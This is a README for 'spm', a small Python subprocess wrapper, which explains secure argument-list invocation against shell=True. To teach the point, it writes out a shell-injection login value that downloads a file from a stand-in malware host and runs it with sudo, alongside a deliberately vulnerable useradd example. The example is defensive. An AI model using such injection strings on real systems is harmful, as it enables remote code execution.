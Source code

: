 spm (SubProcessesManager)
=========================

.. code:: python

    >>> import spm
    >>> spm.run('echo', '-n', 'hello world').stdout.read()
    'hello world'
    >>> import functools
    >>> git = functools.partial(spm.run, 'git')
    >>> git('status', '-z').stdout.read().split(b'\x00')
    [' M spm.py', '']

This provides a very thin KISS layer on top of the python standard library's
``subprocess`` module. This library supports Python 2 and Python 3.

This makes it easy to pipe subprocesses, and pipe subprocesses input/output
to files.

It only has four rules:

* Simple programming interface
* Don't reimplement the wheel. (It tries uses the ``subprocess`` standard
  module as much as possible) 
* It only does one thing, and try to do it well.
* Use argument list instead of one command string.

Secure subprocess invocation
----------------------------

For those who don't understand the last rule. There are two ways to ways to
invoke subprocesses in python: One method is insecure, the other one is
secure.

.. code:: python

    import subprocess

    # Insecure subprocess invocation
    subprocess.check_call("echo foo", shell=True)
    # Secure subprocess invocation
    subprocess.check_call(['echo', 'foo'])

The second one is secure, because it prevents shell code injection. If we over
simplify, the first method, could be implemented this way:

.. code:: python

    def insecure_check_call(command_line):
        """
        Same as check_call(shell=True)
        """
        # Runs /bin/bash -c "the given command line"
        subprocess.check_call(['/bin/bash', '-c', command_line])


Let's use the following code as example:

.. code:: python

    import subprocess
    # Get insecure and unchecked data from a user
    from somewhere import get_login_from_user()

    def create_user():
        cmd = "sudo useradd '{}'".format(get_login_from_user())
        subprocess.check_call(cmd)

A user can inject code if they enter the login
``' || wget http://malware.example.com/malware -O /tmp && sudo /tmp/malware``.
Because this will execute:
``sudo user '' || wget [...] -O /tmp && sudo /tmp/malware``.

Why another library?
--------------------

.. image:: https://imgs.xkcd.com/comics/standards.png
   :alt: XKCD Comic strip: "How Standards Profilef
   :align: center

Here are the existing libraries:

* sh_: doing too much. The programming interface for piping commands is
  complex and bad.
* execute_: old, vulnerable to shell injection.
* sarge_: doing too much, vulnerable to shell injection.
* envoy_: too complicated, and vulnerable to shell injection.

And many other are unmaintained or worse.

.. _sh: https://amoffat.github.io/sh/
.. _execute: https://pythonhosted.org/execute/
.. _sarge: http://sarge.readthedocs.org/en/latest/
.. _envoy: https://github.com/kennethreitz/envoy


What do you mean by KISS?
-------------------------

KISS lost its original sense. Now it's just an hipster word which means "just
use my library because it's cool".

Here I mean KISS in its original sense: Keep It Simple, Stupid.

* this library is one file with less than 500 lines (excluding testing)
* this library has two functions: ``pipe()`` and ``run()``
